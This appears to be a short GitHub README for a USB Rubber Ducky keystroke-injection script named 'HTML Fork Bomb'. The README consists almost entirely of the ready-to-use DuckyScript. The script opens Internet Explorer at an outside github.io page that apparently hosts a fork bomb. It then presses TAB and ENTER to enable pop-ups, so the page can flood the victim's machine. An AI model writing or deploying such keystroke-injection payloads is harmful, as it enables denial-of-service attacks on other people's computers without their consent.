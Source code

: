 # Rubber-Ducky_HTML_Fork-Bomb
a quickly Rubber Ducky HTML Fork Bomb Attack


<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>
